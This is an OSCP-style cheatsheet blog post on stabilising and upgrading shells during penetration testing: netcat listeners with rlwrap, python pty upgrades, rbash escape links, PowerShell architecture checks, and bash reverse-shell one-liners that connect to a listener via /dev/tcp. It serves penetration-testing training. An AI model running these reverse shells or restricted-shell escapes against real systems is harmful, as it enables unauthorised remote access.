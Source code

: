 ```yaml
---
title: Upgrading and Improving Shells
author: sKyW1per
category: "OSCP"
date: "2021-03-08 00:01"
tags: [OSCP, Cheatsheet]
layout: post
---
```



###### Tricks to improve a crappy shell
```
rlwrap
$ rlwrap -r nc -nvlp 443

Turning terminal echo off:
1
Ctrl + Z in the nc instance to move the shell to the background;
2
$ stty raw echo; fg
For also getting the ability to clear the screen:
3
In the nc shell:
$ export term=XTERM

```

###### Upgrading Shells
```
Upgrade sh to bash using python (2 or 3)
$ python3 -c 'import pty; pty.spawn("/bin/sh")'
$ python3 -c 'import pty; pty.spawn("/bin/bash")'

Correcting the $PATH variable for sh / bash
$ export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin/usr/bin:/sbin:/binusr/local/sbin:/usr/local/bin:/usr/sbin:/bin

Upgrading from rbash:
https://www.hacknos.com/rbash-escape-rbash-restricted-shell-escape/
https://www.hackingarticles.in/multiple-methods-to-bypass-restricted-shell/

Start bash instance:
$ /bin/bash -i >& /dev/tcp/192.168.119.1/80 0>&1
$ /bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.119.1/80 0>&1'

```

###### Check Architecture of a PowerShell connection

~|32 bit folder|64 bit folder|
---|---|---
32-bit session | C:\Windows\system32\ | C:\Windows\sysNative
64-bit session | C:\Windows\sysWOW64\ | C:\Windows\system32

```
Check architecture of the host
$ [system.environment]::Is64BitOperatingSystem

Check architecture of powershell environment:
$ [Environment]::Is64BitProcess

alternative to check arch in ps environment:
$ [IntPtr]::Size
The value of this property is 4 in a 32-bit process, and 8 in a 64-bit process.

For example: If you get a shell trough a webserver running in a 32bit process but the host is 64bit, powershell will by default open a 32bit process.
This can be solved by specifically calling powershell with the following path:
C:\Windows\sysNative\WindowsPowerShell\v1.0\powershell.exe

More info:
https://ss64.com/nt/syntax-64bit.html
```
